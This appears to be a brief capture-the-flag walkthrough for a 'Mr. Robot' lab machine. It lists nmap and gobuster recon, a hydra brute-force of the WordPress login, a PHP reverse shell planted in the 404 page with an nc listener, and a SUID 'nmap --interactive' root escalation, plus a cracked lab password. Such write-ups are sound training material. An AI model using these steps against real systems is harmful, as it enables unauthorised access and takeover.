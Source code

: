 ### RECON 
###### Scanning 
 * `nmap -A X.X.X.X`
	 * 22: ssh
	 * 80: Apache
	 * 443: Apache
 
###### Locating directories
 * `gobuster dir -u X.X.X.X:3333 -w rockuou.txt`
	 * robots.txt => fsocity.dic, key-1-of-3.txt
	 * /wp-login
 
###### Go through the site
* /wp-login ~ exploit
	* find out the right username:
		* Elliot
		* Note: Wordpres login is case-INsensitive

### COMPROMISE
* ```hydra -l elliot -P fsocity.dic X.X.X.X http-post-form "/wp-login:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=The password you entered for username elliot is incorrect"```
	* Elliot: ER28-0652
* modify 404 error page in order to embedd PHP reverse shell
* `nc -lvnp 4444`
* get proper shell: `python -c 'import pty;pty.spawn("/bin/bash")'`
* find interesting files
	* password hash: MD5 ~ crack => key-2-of-3.txt

### PRIVILEGE ESCALATION
* `find / -perm -u=s 2>/dev/null`
	* nmap, vim, find, bash, more, less, nano, cp
	* `nmap --interactive`
	* in /root => key-3-of-3.txt